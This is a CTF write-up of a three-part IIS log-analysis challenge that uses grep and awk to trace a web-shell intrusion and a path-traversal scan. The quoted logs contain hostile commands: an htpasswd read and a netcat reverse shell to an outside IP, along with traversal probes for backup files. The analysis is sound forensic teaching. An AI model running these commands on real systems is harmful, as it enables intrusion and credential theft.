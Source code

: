 ```yaml
---
title:  "#writeup: DigitalOverdose - Log Analysis"
layout: post
date:   2021-10-10
ctfs: true
permalink: /writeup-dover21
redirect_to: https://scavengersecurity.com/posts/digitaloverdose-loganalysis/
author: jartigag
tag:
- ctf
- análisis
- cybersec
- windos
mastodonReplies: https://mastodon.social/@jartigag/XXXXXXXXXXXXXXXXXX
twitterReplies: https://twitter.com/jartigag/status/XXXXXXXXXXXXXXXXXXX
---
```


[https://scavengersecurity.com/posts/digitaloverdose-loganalysis/](https://scavengersecurity.com/posts/digitaloverdose-loganalysis/)

```
original writeup metadata:
---
title: Log Analysis
event: DigitalOverdose RACTF
date: 2021-10-09
discipline: log analysis
difficulty:
    - easy, 100 points. 34 solves when solved [2021-10-09 11:57 CEST], 133 solves at end [2021-10-10 21:50:33 CEST]
    - easy, 150 points. 17 solves when solved [2021-10-09 11:57 CEST], 100 solves at end [2021-10-10 21:50:33 CEST]
    - easy, 200 points. 13 solves when solved [2021-10-09 11:57 CEST],  84 solves at end [2021-10-10 21:50:33 CEST]
author: jartigag
tags: iis logs, access logs, grep, awk
---
```

# Log Analysis

> An incident has affected our website! Fortunately, we have logs.

This is a 3-part challenge. Two IIS logs are provided:

```bash
$ ll *log
9,4M attack.log
 46M more.log
$ for f in *log; do cat $f | (head -2; tail -1); done
#Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) cs(Referer) sc-status sc-substatus sc-win32-status time-taken
2021-09-01 00:28:00 135.233.142.30 GET polyfills-es5.9fba121277a252cdf0fa.js - 443 - 83.147.40.142 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.1;+WOW64;+Trident/5.0) - 200 0 0 22
2021-09-06 23:49:22 135.233.142.30 GET conference - 443 - 194.48.242.119 Mozilla/4.0+(compatible;+MSIE+7.0;+Windows+NT+5.1) https://digitaloverdose.tech/ctf 200 0 0 20
#Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) cs(Referer) sc-status sc-substatus sc-win32-status time-taken
2021-08-01 00:27:00 45.85.1.176 GET cdn-cgi/scripts/5c5dd728/cloudflare-static/email-decode.min.js - 443 - 185.251.117.121 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1;+SV1;+.NET+CLR+1.1.4322) - 200 0 0 24
2021-08-31 23:34:04 45.85.1.176 GET privacy - 443 - 31.185.221.23 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1) https://digitaloverdose.tech/dovercon/2021 200 0 0 20
```

## 1 - Ingress

> Our website was hacked recently and the attackers completely ransomwared our server!
> We've recovered it now, but we don't want it to happen again.
> Here are the logs from before the attack, can you find out what happened?

We start inspecting some log fields, looking for something uncommon. For example, in the [`cs(Referer)` field](https://en.wikipedia.org/wiki/HTTP_referer):
```shell
$ awk '{print $(NF-4)}' attack.log | sort | uniq -c | sort -nr
   6947 -
   1343 https://digitaloverdose.tech/dovercon/sponsoring-edition-2021
   1318 https://digitaloverdose.tech/dovercon/2021/speakers
   1286 https://digitaloverdose.tech/dovercon/2021/code-of-conduct
   1278 https://digitaloverdose.tech/dovercon/2021/about
   1268 https://digitaloverdose.tech/dovercon/2021
   1262 https://digitaloverdose.tech/privacy
   1255 https://digitaloverdose.tech/ctf/2021-autumn
   1230 https://digitaloverdose.tech/team
   1225 https://digitaloverdose.tech/faq
   1224 https://digitaloverdose.tech/dovercon/2021/cfp
   1214 https://digitaloverdose.tech/copyright
   1213 https://digitaloverdose.tech/ctf/2021-spring
   1210 https://digitaloverdose.tech/dovercon
   1210 https://digitaloverdose.tech/conference
   1208 https://digitaloverdose.tech/dovercon/2021/sponsoring
   1206 https://digitaloverdose.tech/dovercon/cfp-edition-2021
   1205 https://digitaloverdose.tech/dovercon/team-edition-2021
   1204 https://digitaloverdose.tech/home
   1202 https://digitaloverdose.tech/ctf/about
   1197 https://digitaloverdose.tech/
   1194 https://digitaloverdose.tech/ctf
   1149 https://digitaloverdose.tech/dovercon/schedule-edition-2021
   1149 https://digitaloverdose.tech/dovercon/2021/mentors
   1135 https://digitaloverdose.tech/dovercon/2021/schedule
   1118 https://digitaloverdose.tech/dovercon/2021/team
   1090 https://digitaloverdose.tech/dovercon/speakers-edition-2021
      7 https://digitaloverdose.tech/ywesusnz
      1 cs(Referer)
```

What is that `ywesusnz`? Let's look which requests were made from that URI:
```shell
$ grep ywesusnz attack.log
2021-09-06 20:44:19 135.233.142.30 GET ywesusnz cmd%3Dcd+.. 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/faq 200 0 0 20
2021-09-06 20:44:45 135.233.142.30 GET ywesusnz cmd%3Dpwd 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 26
2021-09-06 20:45:04 135.233.142.30 GET ywesusnz cmd%3Dwhoami 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 25
2021-09-06 20:45:16 135.233.142.30 GET ywesusnz cmd%3Dhostname 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 25
2021-09-06 20:45:46 135.233.142.30 GET ywesusnz cmd%3Dnetstat+-peanut 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 21
2021-09-06 20:46:04 135.233.142.30 GET ywesusnz cmd%3Dcat+%2Fvar%2Fwww%2F.htpasswd 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 22
2021-09-06 20:46:12 135.233.142.30 GET ywesusnz cmd%3Dcat+RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ== 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 26
2021-09-06 20:46:19 135.233.142.30 GET ywesusnz cmd%3Dnc+-e+%2Fbin%2Fsh+207.35.160.84+4213 443 - 20.132.161.193 Mozilla/5.0+(compatible;+MSIE+9.0;+Windows+NT+6.0;+Trident/5.0) https://digitaloverdose.tech/ywesusnz 200 0 0 20
$ echo RE97YmV0dGVyX3JlbW92ZV90aGF0X2JhY2tkb29yfQ== | base64 -d
DO{better_remove_that_backdoor}
```

## 2 - Investigation

> Thanks for finding the RFI vulnerability in our FAQ.  We have fixed it now, but we don't understand how the attacker found it so quickly.
> We suspect it might be an inside job, but maybe they got the source another way.  Here are the logs for the month prior to the attack, can you see anything suspicious?
> Please submit the attackers IP as the flag as follow, DO{x.x.x.x}

What characters would a suspicious request contain (maybe looking for a [path transversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack))?

```shell
$ grep "\.\." more.log | (head -3; tail -1)
2021-08-03 08:55:00 45.85.1.176 GET ../..//passwords.bckp - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 27
2021-08-03 08:55:00 45.85.1.176 GET ..//configuration.3 - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 22
2021-08-03 08:55:00 45.85.1.176 GET ../../..//db_config.1 - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 25
2021-08-03 08:55:08 45.85.1.176 GET ../..//admin.txt - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+Win64;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 404 0 0 30
```

So we compose the flag with the client IP:

`DO{200.13.84.124}`

## 3 - Backup Policy

> So it looks like the attacker scanned our site for old backups right?  Did he get one?

Filtering the attack date and excluding the "404 - Not found" response code:

```bash
$ grep "2021-08-03 08:55" more.log | grep -v 404
2021-08-03 08:55:00 45.85.1.176 GET 8-es2015.9f210c2bd083cdacb0ee.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) - 200 0 0 22
2021-08-03 08:55:00 45.85.1.176 GET dovercon/speakers-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) - 200 0 0 26
2021-08-03 08:55:00 45.85.1.176 GET backup.zip - 443 - 200.13.84.124 Mozilla/5.0+(Windows+NT+5.1;+RE97czNjcjN0X19fYWdlbnR9;+x64)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Chrome/60.0.3112.90+Safari/537.36 - 200 0 0 25
2021-08-03 08:55:29 45.85.1.176 GET runtime-es5.43df09c2199138dc23a5.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 22
2021-08-03 08:55:29 45.85.1.176 GET assets/images/ctf/2021-01/offsec-logo.svg - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 27
2021-08-03 08:55:29 45.85.1.176 GET polyfills-es5.9fba121277a252cdf0fa.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 20
2021-08-03 08:55:29 45.85.1.176 GET dovercon/speakers-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 21
2021-08-03 08:55:39 45.85.1.176 GET assets/images/ctf/2021-01/offsec-logo.svg - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 20
2021-08-03 08:55:39 45.85.1.176 GET polyfills-es2015.891d5b00ef96a8ae9449.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 30
2021-08-03 08:55:39 45.85.1.176 GET polyfills-es2015.891d5b00ef96a8ae9449.js - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 25
2021-08-03 08:55:39 45.85.1.176 GET dovercon/schedule-edition-2021 - 443 - 109.70.150.227 Mozilla/4.0+(compatible;+MSIE+5.01;+Windows+NT+5.0) https://digitaloverdose.tech/dovercon/speakers-edition-2021 200 0 0 25
$ echo "RE97czNjcjN0X19fYWdlbnR9" | base64 -d
DO{s3cr3t___agent}
```
